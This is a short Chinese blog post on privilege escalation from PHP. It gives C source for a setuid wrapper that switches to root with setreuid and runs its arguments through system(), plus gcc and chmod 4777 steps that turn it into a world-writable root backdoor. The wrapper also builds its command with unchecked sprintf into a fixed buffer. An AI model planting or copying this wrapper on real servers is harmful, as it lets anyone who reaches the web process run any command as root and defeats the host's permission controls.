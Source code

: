 ```yaml
---
layout: post
title: PHP提权
---
```


php运行环境本身有权限限制，有些命令即使关闭安全模式也无法运行，下面通过C来实现提权：

{% highlight c %}
/*
 PHP提权
 Mail : malu#malu.me
*/
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, void **argv){
        if(argc<2){
                return 0;
        }
        uid_t uid ,euid,i;
        uid = 0;
        euid = geteuid();
        char execname[10240];
        //printf("my uid :%u\n",getuid());
        //printf("my euid :%u\n",geteuid());
        if(setreuid(euid, uid)){
                perror("setreuid");
        }else{
                //printf("after uid :%u\n",getuid()); 
                //printf("after euid :%u\n",geteuid()); 
                sprintf(execname, "%s",argv[1]);
                for(i=2;i<argc;i++){
                        sprintf(execname, "%s %s",execname,argv[i]);
                }
                system(execname);
                return 0;
        }
}
{% endhighlight %}

把以上C代码编译，并赋予s权限：

	gcc a.c
	chmod 4777 a.out

接下来就可以通过a.out来提权执行任何命令了。